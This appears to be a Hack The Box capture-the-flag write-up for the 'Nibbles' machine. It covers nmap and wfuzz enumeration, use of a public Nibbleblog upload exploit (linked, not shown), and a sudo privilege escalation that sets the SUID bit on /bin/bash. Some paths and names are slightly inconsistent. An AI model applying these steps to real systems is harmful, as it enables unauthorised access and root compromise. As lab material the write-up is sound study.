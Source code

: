 ```yaml
---
title: Nibbles Machine HTB
date: 2023-02-1 00:18:00 +0700
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


## Enumeration

```ruby
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
| 2048 c4f8ade8f80477decf150d630a187e49 (RSA)
| 256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_ 256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Therefore, we will have to do the intrusion through the web, since we do not have SSH credentials.

The web page only has a ``Hello World`` , but in its source code we can find the `/nibbleblog/` directory so let's investigate it.

Applying a wfuzz to it:

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.129.225.129/nibbleblog/FUZZ/
```

We can see several directories, including `/admin, /languages, /plugins, /content and /themes` . 
Let's investigate `/admin` first. Unfortunately, we can't find much.
## User Exploit

On the main page, we see that it is created using niddleblog, so let's look for an exploit: 

Luckily, we found the following: https://github.com/dix0nym/CVE-2015-6967

Let's import it and run it:

To run it, we will have to go to the directory `/content/private/plugins/my_image/` and run the file named `image.php`.  

## Root Exploit

Doing `sudo -l` we see that we can run the file `/home/nibbler/personal/personal/stuff/monitor.sh` as root,
but as this does not exist, we create it with the following command inside

```bash
/bin/bash

chmod u+s /bin/bash
```

And we execute it: `sudo /.monitor.sh` -> `/bin/bash -p` and we can already see the root flag inside /root/root.txt
